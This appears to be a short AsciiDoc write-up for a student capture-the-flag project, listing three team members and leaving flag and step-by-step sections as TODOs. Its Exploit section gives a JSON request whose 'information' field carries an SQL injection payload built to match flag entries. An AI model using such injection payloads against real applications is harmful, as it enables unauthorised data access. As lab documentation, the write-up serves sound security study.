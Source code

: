 = SFS Project
:authors: Wiplinger Daniel, Posch Karl, Weglehner Julian,
:toc: right
:toclevels: 3

== Members:

|===
|Posch Karl |Weglehner Julian |Wiplinger Daniel

| image:util/Posch.png[]
| image:util/Weglehner.png[]
| image:util/Wiplinger.png[]
|===

== Flags

// TODO: where are the flags and what are they


== Exploit

.Bad Request
[source,json]
--
{
  "information": "x' OR target.information LIKE 'CTF%' -- ",
  "category": "FLOWERS"
}
--

// TODO: step by step instruction on how to get to the flag